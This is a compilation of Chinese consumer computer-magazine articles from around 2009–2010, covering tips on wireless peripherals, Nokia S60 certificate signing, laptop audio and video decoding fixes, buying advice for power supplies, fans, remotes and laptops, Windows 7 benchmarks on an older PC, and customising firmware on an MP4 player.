2.4GHz无线信号，必须经过折射、反射才能被鼠标接收，信号质量打折不少。USB信号接收器与鼠标之间尽量少放置物品，放置在机箱后部USB信号接收器，受到机箱背部电磁辐射比较大，角度也太偏，加一根USB延长线，放置于机箱前部，会有不错的效果。

- 缩短距离有讲究
信号强度不够，某些质量稍差的无线键鼠功率本来就小，使用距离又过长，可以使用较长的USB延长线，或者多条USB延长线进行串联，使USB接收器更接近无线键鼠并保持合适的角度以及相同的水平高度。

- 谁在干扰我？
大功率电器和无线路由器都是强干扰源，容易导致无线键鼠使用不畅。比如微波炉处于2.4GHz工作频段，这对于同样使用2.4GHz频段的无线键鼠而言，会有不小的干扰。减少放置在USB接收器周围的用电物品，远离厨房、大功率音响等电器。

(文/柴涛)

## 安装S60软件出错？来签个名吧

“证书错误！请与应用程序提供商联系。”怎么办？怎可轻言放弃！签个名不就可以解决问题了？N记手机什么都好，但签名证书实在是让人头疼。既然提示证书错误，就要先做一个证书，然后用这个证书签名就可以正常安装软件了。

- 小知识：破解权限与证书的区别
诺基亚为了手机最大限度的安全性，执行了证书签名的方式来验证软件程序。获得签名证书就相当于获得了一个通行证一样。但是，这个权限是有限度的，很多网站提供的签名服务都只给予不完整的授权（共20项），而破解的话所有权限都可以获得。但是，完全权限很可能会让一些改版软件（网友Mod）通过“审核”，给系统带来不安全因素，所以，建议大家尽量选择证书授权的形式。

- 第一步：申请证书。现在能够申请证书的网站比较多，本文就以选择http://cer.dospy.com/来制作证书。在手机待机状态下输入*#06#，可以得到手机的IMEI码。在网页上输入这段数字，点击提交。一天之后证书即可制作完成后再次输入IMEI码，网站就会自动显示出证书的下载链接，下载即可。由于是在手机上进行签名操作，还需要下载一个key（下载地址：http://cer.dospy.com/key.htm）。

- 第二步：下载自由签名（下载地址：http://work.newhua.com/cfan/200920/FreeSigner.rar），在手机上安装并运行。将证书和key传到手机存储卡中，在“自由签名→选项→设置→签名证书→存储卡”中找到证书的位置，在“签名密钥”中找到key的位置。设置好后选择“返回”。

- 第三步：选择“添加任务”找到所需签名的安装文件。点“选项→添加→签名→选项→执行！”。在安装文件的原目录下会生成一个*_signed.sisx的文件（*表示原文件的文件名），就可以顺利安装这个程序了。

## 解决Acer 6930G Windows XP下破音的烦恼

临近开学时买了台笔记本电脑，型号是Acer 6930G。一直用不惯Vista，但又想尝试，无奈一两个月过去了依旧不能接受这个系统，决定换回Windows XP。开始时觉得还不错，就是找驱动略显麻烦。但后来使用时才发现，Windows XP下有破音的问题，开始以为驱动程序有问题，换了几乎所有版本都不管用，甚至一度怀疑硬件因为装了Windows XP损坏……

有天无意间发现，在调节低音效果的时候，竟然能够解决破音的问题。首先，下载驱动程序（下载地址：http://download3.acer.com.cn/driver/whole/notebook/AS6530/WinXP/Audio_Realtek_v.6.0.1.5704.zip），注意，必须是这一版的驱动程序，虽然写的是6.0.1.5704，但实际版本是5.10.0.5704，千万不要搞错！

安装完驱动程序后，重启电脑，点击“开始→控制面板→声音”，然后双击“扬声器”打开控制属性。

扬声器属性界面：你将能看到几项细节控制内容，这细节控制功能只有5.10.0.5704版的驱动程序中才有。调节其中Subwoofer（超低音音箱），将拉杆向左拉20%左右（或50%），这样，破音问题就可以解决了。

实际上，这个故障的根本原因在于Acer 6930G的扬声器单元功率较低，而新版驱动程序默认情况下是一个很高的水平，所以才会出现破音失真问题。后来我才发现，原来很多Acer 6XXX、5XXX型号的本本都存在这个问题，如果你也遇到了，不妨试一试，很管用哦！

(北京/TKD)

## 10分钟开启Intel GM45集成显卡的高清硬解

为什么现在很多NVIDIA GeForce G102M低端独立显卡的笔记本那么好卖？不管它的游戏性能如何，似乎独显就是好。实际上很多消费者看中的只不过是独显的高清硬解码功能。商家也不断宣传独立显卡能解高清的概念，导致很多人最终选择了它。其实，像Intel GM45这样的集成显卡一样具备高清解码的能力，更重要的是，集成显卡的耗电会更低，发热量也要小很多！另外像很多超轻薄笔记本（CULV平台），也都是采用Intel GM45集成显卡的，想要让它发挥更多的功能，那接下来的内容你就绝不能错过咯！

- 第一步：安装增强版KMPlayer和PowerDVD 8
首先要提示玩家，目前Intel的显卡驱动已经不再支持Windows XP下的硬解码，所以必须采用Vista或是Windows 7操作系统。把显卡驱动更新到最新版本后，下载并安装增强版KMPlayer，为保险起见，还可以把PowerDVD 8安装上。

- 小提示：终极解码和完美解码的设置方法
现在很多玩家都喜欢使用终极解码之类的一体化方案，这类软件包通常会用“解码中心”之类自己开发的界面接管播放器的大部分设置。因此要么换用前面介绍的解决方案，要么尝试在“解码中心”等界面中进行上述设置。

- 第二步：更改播放时调用的解码器
打开KMPlayer播放器，按下F2键进入软件参数设置界面，进入到“滤镜控制→分离器”，在右侧的Matroska选项中选择Gabest或Haali分离器。接下来到“滤镜控制→解码器使用→内部视频解码器”后，将右侧H.264、AVC1、VC-1三个选项前的勾取消。

- 然后在“外部视频解码器”中：点击右下的“搜索外部解码器”，点击左下角“添加系统解码器”，并在出现的窗口中分别选择并确定CyberLink h.264/AVC Decoder(PDVD8)和CyberLink VC-1 Decoder(PDVD8)（注：采用Z530/Z520的上网本可以硬解H.264的高清视频，设置时将H.264高清视频解码器设置为“CoreAVC”即可）。

- 回到“外部解码器/滤镜管理”窗口后，分别点击刚才添加的两个解码器（注意都要勾选上），并在右侧设置这两个解码器所对应的编码格式。

### 第三步：渲染器与硬解码的后续设置

- 现在回到“参数设置→外部视频解码器”窗口，右侧H.264、AVC1和VC-1三个选项中已经出现了刚才设置的解码器，分别选中，并点击右侧的C按钮，在出现的窗口中选中Use DxVA。

- 最后在KMPlayer窗口中点击右键，分别选择“视频(高级)→视频渲染器→增强视频渲染器”，如此一来就大功告成，我们手中的GM45显卡本本就可以流畅地播放1080P的高清电影了，且CPU占用率不超过50%。

### 小提示：确认硬解码是否打开

最简单的办法当然是看播放视频时的CPU占用率，更有技术含量一点的方法是在播放时按Ctrl + Tab键弹出窗口，最上面“视频信息”的“格式”一行中如果显示“DxVA”，则表示已经成功打开硬件解码。

(文/TKD)

## 3G无线路由VS传统无线路由

早在去年3G就已经正式走入中国大众生活，与传统的网络相比，3G无线网络具有移动性强，连接速度快以及无线信号覆盖范围广等特点，不再被网线所限制，实现任意地点无线上网。这种更自由的方式注定了3G未来的发展方向。

### 3G 无线路由器有何优点？

由于运营商终端的限制，一个用户只能通过一台3G无线上网卡连入互联网，而共享互联是现在倡导的口号，个人独享这3G网络难免心疼，各厂商纷纷推出3G无线路由器解决了这一尴尬的状况。适合经常变换住处，长期出差的朋友，与其他设备共享上网也不成问题，同时与邻居分担网费也更加灵活。

传统无线路由器需要通过网线与广域网互联，进入无线时代，有线的方式只会禁锢现在生活方式。出差了，家里的ADSL包月钱交着却用不上，换住处了，刚交的网费还没用完就赠送下一位房客，能不心疼么。而且现在ADSL，小区宽带可以销户了，3G网络速度也不慢，大部分可以达到ADSL 1M-2M的水平，放心投靠3G的怀抱吧。

### 我的 3G 上网卡能被支持么？

3G无线路由器与普通无线路由器不仅是差在一个USB接口上，3G移动路由器是将3G上网卡的AT指令写入到无线路由器的固件中，它才能识别和使用无线上网卡，所以不是所有的3G上网卡都能支持，以上3G无线路由器均支持主流USB接口的3G上网卡，未来的新产品也可以通过升级路由器内固件获得支持。

至于其他品牌的3G无线路由器，可以去厂商的官方网站上查找产品支持列表。上网的速度取决于不同运营商的3G上网卡，联通的WCDMA速度最快，电信的EVDO其次，移动的TD-SCDMA稍慢。在无线路由器管理界面找到WAN类型，选择3G，再从3G卡类型中找到上网卡支持的运营商，其他设置与普通无线路由器并无差异，不连接上网卡时，3G无线路由器也可以当做普通无线路由器来使用。

## 2010年 台式机大爆发？

2008年时，根据IDC美国PC市场季度跟踪报告的初步统计数字，2008年第三季度在美国销售的笔记本电脑份额占到了55.2%，第一次超越台式机。而2009年，这已经成为既定的事实，全球的PC市场都是如此。随便走上卖场，你看到最多的一定是各种笔记本电脑，台式机只躲在角落中，很少有人问津。而且，自年初以来，AIO（一体电脑）的概念也吸引了一些人的目光，只有台式机依旧是没落。

### 卖场台式机的没落

记者走访一些IT卖场、3C卖场，发现消费者的选购习惯很有趣。第一类是指名点姓的消费者，他们的特点是认定了品牌、配置，对于外观也有所要求，简言之目的明确，走进卖场前已经做好了决定——非笔记本不买；第二类是羊群效应的追随者，大家说什么就是什么，现在笔记本这么火爆，电脑似乎已经与笔记本画上了等号，这类消费者的心理就是如此对电脑定义的；第三类则毫无目的型消费者，走进卖场，谁能喊出一句他感兴趣的话，或是看到哪个角落里摆放的机型好看，那么，他的兴趣焦点就会放在哪里。但无论是哪一种消费者，对传统台式机的关注度都非常低，在走访中随机采访的几位消费者都表示“基本没考虑过台式机，太大占地儿，笔记本性能也很好”等等，总之，台式机已经不再受人关注了。

### 下一个需求还是台式机！

显然，现下台式机似乎真有点穷途末路了，没有人有欲望需要台式机，更好用的Windows 7系统需求相当不高，笔记本也能运行游戏，并且具备极高便携性是人们抛弃台式机的最主要原因。但是，到了2010年，台式机将极有可能呈现出不同的态势。

为何这样说？对于台式机，性能强劲是必然的选择，但目前台式机95%都是6000元以下的性价比产品。那么什么应用又对性能有需求呢？第一是视频的编解码工作，电影转码是现在很流行的应用，因为大家手中的掌上电脑、MP4、PSP乃至手机都可以看电影；另一个就是游戏了。“2010年，显卡将开始转向DirectX 11规格（一种应用程序编程接口，游戏需要通过它来调用显卡资源），大量新游戏将对系统性能提出更高的要求——显然，这是目前只采用中低端独立显卡笔记本绝对满足不了的。”某PC品牌产品经理如此解释到。当然，前提条件是，游戏PC必须将价格拉到一个相对合理的水平，当然不是要尽量低价，但也绝对不能像现在动辄万元的水平——例如惠普Firebird游戏PC，毕竟近似性能的DIY PC售价也不过7000余元。在采访一些游戏玩家时我们发现，如果性能相同的PC，品牌机的价格最多不能高于DIY PC的30%，超过这个数字，玩家就表示不可接受了。

### 你不知道的新 PC 格局

那么，2010年，整个PC的格局将是什么样子的呢？在采访几家媒体的评测工程师后，我们总结出了如下答案：

### 1.上网本，超轻薄笔记本
价格维持在3000元~5000元一线，满足普通使用型消费者——他们不太会涉及创造性应用（如视频转码、游戏等等），浏览、输入以及简单的视听娱乐功能就足够了。代表机型：华硕EEPC 1005HA贝壳机、Acer Aspire3810T、联想IdeaPad U350

### 2.传统笔记本/一体电脑
价格维持在4000元~8000元左右，主要满足移动性要求较多的用户，并有一定创造性应用，如商用机型、便携的个性化笔记本等等。此外，一体电脑也能满足对使用感受有更多要求的用户，而且它不会占用空间，但此类的需求相对会少一些。代表机型：Thinkpad T400s、戴尔Inspiron 14、戴尔Inspiron one

### 3.游戏型品牌台式机
价格维持在5000元~8000元左右，主要满足对性能需求强力，需要创作属于自己数字内容的消费者，或是游戏达人。代表机型：戴尔XPS、联想IdeaCentre K

对于台式机部分，在Intel i7处理器相关的媒体活动上也释出类似观点，未来的台式机发展应该是着力于6000元以上的个性化PC，性能强劲，能满足对性能有苛求玩家的需求，尤其是游戏型PC，这才是台式机产品的重要着力点，低端台式机将成为过去式。

综上所述，《电脑爱好者》认为，价格、产品类型的区分方式已经彻底的不适用了——需求为本才是最合理的选择方式、衡量标尺，我们大胆的预测，在2010年台式机将再次回到人们的视野，让我们拭目以待吧！(北京/TKD)

## 没门有窗户 老机也能玩Windows 7

Windows 7的出现绝对让人兴奋，尤其是很多玩家已经迫不及待地开始安装了。但是，还有很多老用户对Windows 7抱着观望态度，毕竟系统升级带来的问题会有很多，除了软件层面的各种问题，最关键的一点，也是先决条件之一：我的老电脑能不能跑顺Windows 7呢？我们特意选择了一款配置为2007年的主流机型：Intel Core 2 Duo E4300，2GB内存，GeForce 8800GS来测试，这个配置在2007年时还算得上中高端配置，而今，似乎有点廉颇老矣的味道了，Windows 7能让它焕发青春吗？首先采用读数记录的方式测试台式机功耗，结果不同系统下的功耗会产生区别，在Windows 7下待机功耗为135.6W左右，而Vista一直保持在141.7W上下，Windows XP下待机功耗最低，为134.4W。尽管差距不大，但毕竟还是有些许的区别。可以说，Windows 7是一款比较“适度”的，毕竟比起Windows XP它调用的系统硬件资源要更大，这样来看功耗还能保持在这种状态下就十分不易了。除了功耗，试试它的系统运行温度也十分必要。我们选择在台式机CPU散热器、电源出风口作为测量点，运行3Dmark 2006 10分钟后用测温仪读数的方式测量，Windows XP中CPU散热器、电源出风口处温度分别是37度、39度；Windows 7下分别为38度、41度；Vista下则是41度、41度。看起来，Windows 7的功效还是十分了得的，如此华丽的界面，易用的操作，耗费的电力资源及发热量都还算理想。但是有的玩家就认为，既然没太明显的提升，那还是没必要更换的好，真是如此吗？接下来恐怕是很多人都关注的游戏性能，首先是DirectX 9.0c游戏《使命召唤5》，在Windows XP下测试性能是最高的，平均可以达到43FPS；Windows 7下则可以达到41FPS左右；Vista最低，仅为37FPS上下，在《侠盗车手4》下情况也类似——显然，DirectX 9的游戏依然是Windows XP下跑得最快。但是，在DirectX 10的游戏中，情况就完全不同了。首先，Windows XP下不支持DirectX 10，而今年剩余要发布的游戏已经全面转向DirectX 10了，这意味着你必须在Vista或Windows 7下作出选择，而不是Windows XP。当然，Windows XP下玩这些新游戏也不是不可以，只是很多专为DirectX 10设计的特效你看不到，为其进行的优化你也得不到，最终的游戏运行效果显然也不会太理想。不仅如此，我们还试着用这台老电脑依照不同的操作系统启动记录时间，从按下电源按钮到能看到桌面为止，以秒表计算（正常安装常用软件，软件加载启动服务完全一致）。Windows 7的启动时间为31秒，Vista的启动时间达到了47秒之多，Windows XP则为36秒。怎么样？对于很多心急的使用者来说，这算得上是个好消息吧？而且我们发现，启动后硬盘的预读取方面明显是Windows 7效率最高，当已经可以完全正常使用Windows 7的时候，Vista还在让硬盘不停读取，“咔咔”的声音不绝于耳，Windows XP尽管好一些，但也存在与Vista类似的情况。显然，无论对于老机还是新机来说，Windows 7绝对是值得更换的操作系统，而且也可以适用于这些老电脑。但是，要注意并不是说所有老旧电脑都可以升级Windows 7。首先，CPU如果非双核，且CPU频率低于2.8GHz的处理器是不可以的。其次，内存最少也要2GB（Windows 7启动后内存占用约600MB，高于Windows XP）才可以保证流畅，这两点是必备的条件。另外要提醒消费者，老电脑一般系统分区都比较小，比如Windows XP最少10GB就够用了，这在Windows 7下可行不通哦，建议至少为Windows 7划分出30GB的系统盘空间来才好。(北京/TKD)

## 风扇是侧吹好 还是下压更牛

为什么机箱内总是那么热？风扇究竟该往哪边吹才对？

热管散热器已经深深扎根于玩家们的心中，其优秀的导热能力、高效的传热速度很难不让人喜爱，热管散热器的强大，离不开风扇的配合。风扇分为侧吹方式与下压方式，这两大派系的支持者一直是争论不休，究竟谁更牛？

## 侧吹式 强悍的大头

这一方式的散热器方方正正，形似一个很呆的大头，风扇在一侧将散热片中的热量吹到机箱外，一般采用大尺寸风扇，转速不超过1500转，半全速运转时工作起来很安静，通过调速，最低可以工作在500转，适合办公时CPU低功耗下使用。而热管的设计是呈U形，底部接触CPU，这样的好处是1根热管可以等效成2根热管来使用，热量传导更为迅速。侧吹式散热器更专注于压制CPU的发热，而对周边照顾不周，CPU周围的供电模块、内存等发热量也不低，若是机箱内没有机箱风扇配合形成有效的风道，情况则会更糟糕。

## 下压式 野蛮的贝壳

下压式的风扇高度要低于侧吹式，能节省不少机箱的内部空间。风扇的转速较侧吹式风扇更高，实际应用中，噪音不算明显，风扇是倒立放置的，从散热片顶部向下吹，把热量分散在四周，正因如此，风可以辐射到CPU周围的供电模块以及内存，让它们不至于太热，有得必有失，这样的设计会扰乱机箱风道，打乱了从机箱前部到后部电源风扇的风道。可惜热管并不是U形设计，也不存在等效的优势。

## 主板很生气，风道很重要

风道即为气流有规律的走向，一款设计优秀的机箱，会将风道设计得很合理，机箱正面的风扇可以吸入冷气，经过内部循环，由电源或背部的风扇排出热气，侧板的开孔也起到了辅助作用。侧吹式散热器的风扇将CPU的热量直接吹到外面，下压式却吹在里面，如果没有风道的辅助散热，及时带走内部多余的热量，两者都很难发挥最优效果。

## 究竟谁更牛？

搭配机箱使用时，侧吹式风扇会全力照顾CPU，四周的情况可以交给副手机箱风扇，当然机箱风扇可以手动添加。下压式风扇紊乱气流的本领不小，辅助风扇散热效果也不会太明显，侧吹式风扇会领先3度~5度，适合有机箱风扇的电脑使用，同时还要考虑机箱能否放下这个大块头。

裸机时不存在风道概念，也就不会扰乱气流，这时选择下压式风扇无疑是全能的，对CPU的降温效果两种都差不多，然而使用侧吹会使供电模块、内存会高出三四度，尤其是整个平台满负荷工作时，控温效果并不好，下压式风扇适合喜欢玩游戏，裸机运行的玩家。

从普通用户考虑，平时上上网，玩玩小游戏，做一些办公应用时整机功耗很低，主板和CPU也不会散发多少热量，这两类方式都能满足使用需求。只是侧吹式风扇转速一般较低，声音比下压式要安静些，更适合日常使用。

无论哪种散热方式，想要达到完美散热性能，都是需要机箱风扇的辅助散热配合，毕竟凭一己之力很难兼顾全面。
（文/柴涛）

## 百元电源体质也够悍

在装机时多数消费者更关心CPU、显卡，并不清楚买功率多大的电源合适，无论整机配置如何，往往被JS忽悠成至少300W电源。对于普通家庭及入门级用户来说，100元的电源也足够满足电脑的稳定运行。

### 1. 200W 也能喂饱

作为电脑供电系统的核心，电源非常重要，目前市场上电源的牌子非常之多，价格差别很大。选择大功率电源的用户不是很多，他们看重电脑的游戏性能，搭配大功率独立显卡和CPU，一般游戏型来说，300W甚至350W的电源，这两个大头就占去将近150W的功耗。如果预算不多，而且打算只做些简单的应用，上网、聊Q、处理文字之外没有过多需求，或是家用第二台电脑做下载机、电影机，尤其是选择整合显卡的用户，完全可以选择200W或者250W的电源，别看功率相差不大，价格可是差着倍数呢。

### 2. 商家说的不靠谱

单独选购电源时，商家报价大体与实际价格相符，然而在配电脑时消费者更容易忽略机箱、电源，JS会在上面狠做文章，三大件报价便宜点吸引注意力，机箱、电源这些容易被遗忘的配件再赚回来，价格不是一般的虚高。尤其是在实体店卖场不景气的大环境下，JS更是想尽花样让人哭笑不得。

> “显示器的功耗也算在电源里，100多W呢”

为了卖个好价钱，JS愣把显示器单独的三叉插头说成和电源有关系，现在很少有显示器需要从电源上面借插口“取电”了，都是从插板上直接取电。并且100多W的功耗是纯平CRT的时代，现在的液晶30W~60W已经很省电了。若是没有听明白，JS的一句借口就让你多掏一倍以上的价钱。航嘉冷静王标准版，130元厚道的价格却是个足额220W的电源，三重滤波+四重保护，稳定性进一步提高，12cm风扇静音设计更符合现在需求。

> “你这是双核配置，必须用300W”

打着双核的旗号，抬高电源功率，如今的电脑大部分都是双核以上，想配个单核还有点难度，同为双核，性能有高低之分，耗电也有大小之异。预算在3000内的家用上网型电脑，大都选择入门双核速龙X2 240或奔腾双核E5300，这两款CPU的TDP功率只有65W，实际功率会更低，搭配785/795这样的整合显卡主板，200W的电源也能吃得消。长城网星3000的输入电压为180V-260V，也算作小宽频电源了，在电压不稳定的地区能够改善一些效果。同样通过国家3C认证，智能温控风扇在低价风扇中也算一个亮点，只是功率略小些为200W，价格不到130元。

> “你看这款300W电源价格和250W差不多”

待你认定买200W/250W的电源时，JS又会拿出山寨厂制造的“300W”电源，里面的用料、工艺尽显山寨风范，包装成高性价比假300W，价格虽然没有贵多少，但是用这样的产品就是隐患，电源非常重要，长期使用劣质电源，会加速主板、硬盘的老化，平时使用也容易出现蓝屏、死机等问题。金河田ATX-300WB(静音版)与多彩龙卷风 DLP-380是这次推荐几款之中功率最大的，实际功率为250W，价格也略贵，均在140元左右，然而功率大的好处是可以支持入门级独立显卡，平台的搭配空间也更大一些。

低价不意味着低质，尽管有百元身价的成本限制，这些大厂的中低端产品却有着不俗的表现，相对山寨厂的产品，用料更有保证，并且都通过了国家3C认证。在电源的选购上功率是一个指标，转换效率同样重要，优秀的电源转换效率都在80%以上，意味着吃的和别人同样多，干活却更卖力。而采用大风扇设计的电源更加静音，散热效果也更好。

### 小提示

有些小厂生产的低价电源并不带SATA电源接口，2元一个的D口转SATA口转接线就能解决。
（文/柴涛）

## 电脑也配遥控器

普通电脑使用遥控器的意义不大，喜欢HTPC的玩家倒是一直很追捧遥控器。

HTPC需要搭配一款合适的遥控器，才能简化键盘、鼠标的操作，我们在床上、沙发上就可享受便捷。别小看这一个遥控器，里面还真有点学问呢。

## 玩的就是享受

首先确定遥控器主要是适合喜欢看电影、浏览图片的人群；这群人喜欢MCE媒体中心及HTPC电脑，在这些方面才能体现电脑遥控器的优越性。躺在客厅里沙发上遥控电脑，看电影，看股市行情，或者冬天躺在被窝里操控电脑，操作又是这么方便快捷，播放器的暂停、静音一键搞定，这都是键盘与鼠标无法比的。

专用系统遥控器：通过MCE系统认证的遥控器采用标准化的编码方式，支持即插即用，也无需再进行各项软件功能的映射设置。缺点是一个按键一般只对应一个功能，无法进行按键自定义，灵活性不高。这套惠普MCE的遥控器经过微软MCE授权，采用的是红外线的方式，USB接口的接收器插上电脑就可以直接被电脑识别，支持XP，MCE2005，Vista、Windows 7系统。按键设计非常舒适，手感一流，配原装HP MCE接收器，有效操控距离10米，具备反射能力。做工上乘，除了常用的遥控器操作功能外不支持自定义操作，但是简单易上手，价格百元出头，还是很受欢迎的。

开放式系统遥控器：需要有接收器的驱动程序支持，开放式遥控器和专用遥控器相比就显得灵活多了，不过初次使用开放式遥控器，一般都要对遥控器按键进行一对一的功能设置。由于开放式系统遥控器需要专门的驱动程序和控制软件支持，尽量要选择大品牌产品，后期支持是必不可少的。使用IRCtr1软件的爱雅电脑遥控器是由遥控器和红外线USB接收器组成，全套价格在80元左右。由于软硬件是自己开发的，最新版驱动升级支持XP，Vista，Windows 7系统，所以功能很强大，可以操控其他的播放器软件、自定义操控功能，例如Realplayer，千千静听，ACDSee，附带实用的光驱出仓、入仓以及定时休眠、重启、关机、模拟键盘、鼠标等功能，除此之外，还可以为自己想要控制的程序添加操控命令文件，以实现无限操控可能。目前有几十个应用程序控制命令文件，包含我们需要的常用的应用程序，官网（http://www.irctrl.com）的命令文件还在不断增加，网友也可以根据自己需要进行命令文件扩展制作。

如果在易用性上取舍，建议购买通过MCE系统认证的遥控器，配合采用MCE的HTPC最好使用该类型的遥控器。如果在功能上取舍，HTPC除了作为播放电影还作为下载机等功能，无法单独使用MCE系统，那就应选择开放式遥控器。市场上还可以看到一种学习型万能遥控器，只要有原遥控器基本上能遥控，操作大部分不同品牌、不同型号的家用电器及电脑、灯具，一个遥控器就能同时控制多个设备，需要代码学习，就是将电器遥控器对准学习型万能遥控器发光/接收头，按电器遥控器上的功能键，然后按学习型万能遥控器上的按键进行记忆，缺点也很显然，需要原遥控器，存储的按键数量也有限制。价格也便宜，比如众合SRM-403C只卖20多元，还是挺划算的，有兴趣的可以试一试。

## 手指舒服了才够爽

遥控器按键个数，至少包含播放、暂停、快进、快退、音量控制、频道切换、关机、关闭/开启显示器、任务窗口切换、鼠标模拟控制等常用功能，否则肯定会影响到日常使用。按键布局是否符合自己的使用习惯，按键触感是否良好，质量要满足按压手感统一、富有良好的阻尼感、表面印刷字体清晰、无刺鼻的异味等条件。

想用遥控器来聊QQ，就算效率跟手机录入差不多，也建议用无线键盘，遥控器的鼠标做一些简单鼠标操作还可以，想大量使用鼠标也建议用无线鼠标，因为鼠标手感是遥控器鼠标不能比拟的。雷柏1800无线键鼠套装不足百元，即可满足无线体验，键盘防水溅，鼠标1000dpi指标还算看得过去，整体来说对得起它的身价，要想获得更好的体验效果，建议选购200元以上的无线键鼠套装。
（文/koli）

## 超台网购买家 咱不能再这样了

偶然间逛论坛，发现一个网友购物后的评价留言，笑得一千人等前仰后合，但随后一想，可不嘛，人家说的也确实是一大问题哦……

### 型号统称惹麻烦

- 用户A: “刚买的本配置就不对劲，介绍说是HD 3470的显卡，递送过来怎么就变成HD 3400了。”
客服人员: “您好，这款机型配备的显卡确实是HD 3470，但属性直接显示的是HD 3400。”
用户A: “既然装了HD 3470，不说清楚谁知道这HD 4000系列到底是哪款。”
用户B: “看得出这位网友对硬件不是很了解，有困扰是正常的，特别是现在网购偷梁换柱的事情频频发生。”
用户C: “没文化是相当可怕的，机器显示的是HD 3400，可以下载最新的检测软件来检测，也可以去官方网站查询，没有必要在这里啰嗦。”

显然商家被误会了。一般来说很多硬件型号在电脑中的显示，仅仅是该系列的统称而已。但这会给初级用户带来很大困扰，进而引发误会。所以，如果你真的需要给本本验明正身，一个最直接的方法就是抄下主机具体配置编号（机身背面或是箱体一侧），然后拨打本本生产厂商的客服电话进行核对，这样才最为保险。

### 仔细验机器很关键

不足：超弱智的设计，居然有摄像头没话筒。见过许多有摄像头有话筒的笔记本，也见过许多无话筒无摄像头的笔记本，第一次见识了有摄像头无话筒的产品。如果要视频聊天，还得外接一个话筒，呵呵真滑稽的设计。

> andy2534 回复说：您好！非常抱歉，经过确认，此款产品带有内置麦克风，在摄像头的旁边，感谢您对京东的支持！祝您购物愉快

其实很多用户在抱怨的时候都没有仔细观察机器本身，现在的笔记本100%会带有麦克风功能，而且绝大部分只是一个如针孔般的小点，位置也多被设计在摄像头的旁边。所以说，仔细观察机器本身非常重要，这样可以减少不必要的误会。

### 忽略评价 JS 受伤害

- 差评: 买家smxwy: 本不错, 就可惜是山寨的, 要是带品牌就好了, 别的没什么。
卖家新贵蓝科技: 大哥, 我写的就是山寨笔记本, 聊天记录里也提到了, 怎么就不看眼呢? 下次买东西看清啊!

山寨与否的问题暂且不讨论，作为网店卖家，其实很多时候还是非常看重信用评价的。而且既然已经说明了产品的规格、情况，买家在决定购买前要有一定的心理准备，不能盲目的评价。当然，如果商家进行欺诈用山寨本来忽悠消费者，那100%是商家的错误。

## 大牌就是系列多：华硕篇

与其他品牌不同的是，华硕笔记本电脑的各条产品线划分似乎并不那么清晰。同为游戏定位，却包括了G、M、X、S等很多系列，而这些系列同时也可能出现在其他定位中。不过好在，某一定位的产品中，仍有部分规律可循。比如游戏定位的产品中，主要以G和X系列为主，前者往往采用四核处理器，高分辨率大液晶屏以及超强独立显卡，同时重量与体积也并不适合带着到处跑，不妨看作是台式机的移动版。而后者则相对平易近人，在满足当今游戏需求的同时，将重量、体积、价格等因素都控制在主流范围之内，更适合一般游戏玩家使用。

而轻薄系列则主要以U系列为主，其中又包括强调超长使用时间的UL系列（最高达惊人的12小时），以及强调极致纤薄的UX系列。这两个系列的产品在外观设计上都非常出色，且很多机型采用超低电压的酷睿处理器（ULV），保证了超轻薄与超长使用时间的平衡。相应地，对于性能方面就不要指望能像高性能笔记本电脑那样提供顶级性能了，当然满足一般办公、娱乐需求还是没有问题的。

说到超轻薄，不能不提的就是华硕的Eee PC系列，8～11英寸的液晶屏，1kg左右的重量，再加上7小时以上的使用时间，可以说完美地演绎了“上网本”这个名词所代表的所有含义。在这个信息爆炸的时代，能够随时随地获取资讯，几乎成了现代人必不可少的求生手段，而Eee PC则是众多求生手段中最为实用的方法之一。

至于对于我们普通消费者来说最值得优先考虑的主流高性价比产品，则广泛分布在华硕的众多产品线之中。可以说每一种定位里，都有很多“主流高性价比机型”，有所区别的只是它们的侧重点稍有不同。

比如兼顾影音效果与游戏性能的F83、X88系列，以及率先配备17英寸高清大屏，强调出色影音表现的X71和X73系列，整体配置差别不大，价格分布也基本在4999元～5999元之间。可以说华硕的笔记本电脑看似型号命名颇为纷繁复杂，实际上则是为消费者提供了广阔的选择空间，使我们可以根据实际需求仔细挑选最适合自己的产品。

此外，由于华硕的机型编号每一个字母都会带有配置含义，因此可能同样都叫F8系列，实际上根据后面编号的不同，配置也会有差别，因此购买前务必将编号搞清楚，一字之差都不能有。

更详尽华硕笔记本分类请浏览：http://www.asus.com.cn/products.aspx?l=5

## 打造更完美的歌美X690HD

当初歌美X690HD凭借直接播放720P的RMVB格式视频，以及10Mbps码率流畅播放的本领成功地冲击了主流MP4市场，X690HD+在X690HD的基础上支持OTG功能，华芯飞CC1600的本领还是不小的，怎么进一步挖掘它的潜力呢？

华芯飞CC1600在2008年底时横空出世，具备四核四总线架构，市面上的CC1600机器采用的是4.3寸高分辨率800×480像素的屏幕。

本文涉及的所有软件、固件、游戏均可下载：http://work.newhua.com/cfan/200921/gm690hd.rar

### MP4 也能超频！

电脑的CPU超频后性能会更高，同样MP4的主控芯片超频后播放高码率视频会更流畅，只不过超频后会牺牲一点点使用时间。此方法同样适合其他采用华芯飞CC1600主控芯片的MP4产品。在集合包中找到“CC1600超频程序”，把它复制到MP4上的任何目录即可，使用时进入MP4的应用程序，选择“频率设置.cc”等待即可。“超频有风险！如果超到死机或者花屏了，就记住要马上捅复位键。”

### 美化固件不求人

不必谈固色变，其实自己动手刷固件也不难，认真操作是不会刷坏的，要注意X690HD固件不能刷在X690HD+中，游戏倒是有一部分可以通用。官方迟迟不放出新固件，还好有热心网友制作的美化固件，比如效果不错的死亡笔记版除此之外还可以自己制作个性化固件，可以在美化固件的基础上进行小修改、替换。

- 第一步：解压“X690HD+1.41版+死亡笔记.rar”美化固件，将美化固件“X690HD.HXF”复制到解压后的“华芯飞固件解包打包工具.rar”文件夹内，运行文件夹内“华芯飞固件工具5.exe”，把美化固件“X690HD.HXF”拖至程序“解包”选项卡中“固定路径”下面的地址栏，点击“解包”，会生成名为out_hxf_X690HD的文件夹。
- 第二步：在生成的解包固件文件夹内，只要用自己喜欢的图标替换掉原来的系统图标，就可以打造出自己想要的美化固件。替换的图片要注意与原始图片的分辨率大小相同，其中system\res\desktop\wall是主界面背景，主界面中间的图标是system\res\desktop\big文件夹中的图片，主界面上的其他图标是system\res\desktop\small文件夹中的图片，而system\res\a\wallp图片是电子书，音乐播放等等的背景界面。
- 第三步：根据个人喜好决定图片全部替换或者替换一部分，接下来再把out_hxf_X690HD文件夹按照刚才的方法拖到“打包”选项卡中“固件目录”下面的地址栏，点击“打包”，名字要以X690HD.HXF为标准，否则无法刷入固件。
